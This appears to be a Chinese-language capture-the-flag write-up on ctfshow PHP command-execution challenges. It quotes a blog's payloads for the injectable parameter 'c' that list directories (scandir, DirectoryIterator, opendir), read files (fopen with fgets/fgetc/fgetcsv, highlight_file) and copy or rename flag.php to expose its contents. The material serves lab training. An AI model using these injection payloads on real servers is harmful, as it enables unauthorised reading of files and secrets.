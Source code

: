 看了y4师傅博客学了一些新的操作：

下面引用内容摘自：[[CTFSHOW\]命令执行 Y4tacker的博客-CSDN博客](https://blog.csdn.net/solitudi/article/details/109837640)

> 首先要获取文件路径，在这里我们可以用两种方式，我暂时想到这两种
>
> ```
> c=print_r(scandir(dirname('__FILE__')));
> c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
> ```
>
> 因为没有任何过滤我们便可以读取任意的文件
>
> ```
> c=$a=opendir("./"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };
> ```
>
> 

> ```
> 通过fopen去读取文件内容，这里介绍下函数
> fread()
> fgets()
> fgetc()
> fgetss()
> fgetcsv()
> gpassthru()
> payload:
> c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgets($a);echo $line;}//一行一行读取
> c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetc($a);echo $line;}//一个一个字符读取
> c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetcsv($a);var_dump($line);}
> ```
>
> ```
> $a=fopen("flag.php","r");while (!feof($a)) {$line = fgetss($a);echo $line;} //php7.3版本后 该函数已不再被使用
> 还有新姿势
> 
> //通过复制，重命名读取php文件内容（函数执行后，访问url/flag.txt）
> copy()
> rename()
> //用法：
> copy("flag.php","flag.txt");             //过60
> rename("flag.php","flag.txt");           //过60
> ```
>
> 

## 66、67-目录遍历

flag不存于flag.php，扫描一下目录

```
 c=var_dump(scandir('/'));    #/flag.txt
 c=highlight_file('/flag.txt');
```

